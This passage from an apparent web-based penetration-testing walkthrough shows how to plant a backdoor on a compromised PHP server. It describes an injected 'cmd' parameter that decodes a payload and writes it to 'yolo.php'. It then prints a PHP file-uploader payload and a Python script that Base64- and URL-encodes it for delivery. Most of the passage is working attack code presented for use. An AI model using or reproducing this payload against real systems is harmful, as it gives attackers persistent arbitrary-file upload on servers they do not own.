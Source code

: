 <p style="text-align:justify;">
The above php script when executed will introduce a new url parameter called <code  style="background-color: lightgrey; color:black;">cmd</code>. Afterwards, an encoded php payload will be provided at the <code  style="background-color: lightgrey; color:black;">cmd</code> parameter, which will then be decoded at the server side and will also be written inside a file called <code  style="background-color: lightgrey; color:black;">yolo.php</code>. Afterwards the <code  style="background-color: lightgrey; color:black;">phpinfo()</code> will be invoked just to make sure the payload has been succesfully executed.    
</p>

<p style="text-align:justify;">
The following payload will be used as our file uploader on the server. This script will be provided in the newly introduced <code  style="background-color: lightgrey; color:black;">cmd</code> parameter in <code  style="background-color: lightgrey; color:black;">Base64</code> encoded form. Before we upload the payload on the server we must encode it using <code  style="background-color: lightgrey; color:black;">Base64</code> as well as URL encoding 
</p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
&lt;form enctype="multipart/form-data" action="yolo.php" method="POST">&lt;input type="hidden" name="MAX_FILE_SIZE" value="512000"/> Upload file: &lt;input name="userfile" type="file" />&lt;input type="submit" value="Send File" />&lt;/form>&lt;?php $uploadfile = basename($_FILES['userfile']['name']);echo "&lt;p>";if(move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)){echo "File is valid, and was successfully uploaded.\n";}else {echo "Upload failed";}echo "&lt;/p>";echo '&lt;pre>';echo 'Here is some more debugging info:';print_r($_FILES);print "&lt;/pre>";?>
</pre>

<p style="text-align:justify;">
The following python script used to <code style="background-color: lightgrey; color:black;">Base64</code> and URL encode the payload above
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">

import base64
import urllib

encoded = base64.b64encode('&lt;form enctype="multipart/form-data" action="yolo.php" method="POST">&lt;input type="hidden" name="MAX_FILE_SIZE" value="512000"/> Upload file: &lt;input name="userfile" type="file" />&lt;input type="submit" value="Send File" />&lt;/form>&lt;?php $uploadfile = basename($_FILES[\'userfile\'][\'name\']);echo "&lt;p>";if(move_uploaded_file($_FILES[\'userfile\'][\'tmp_name\'], $uploadfile)){echo "File is valid, and was successfully uploaded.\n";}else {echo "Upload failed";}echo "&lt;/p>";echo \'&lt;pre>\';echo \'Here is some more debugging info:\';print_r($_FILES);print "&lt;/pre>";?>')

print(urllib.quote(encoded))

</pre>
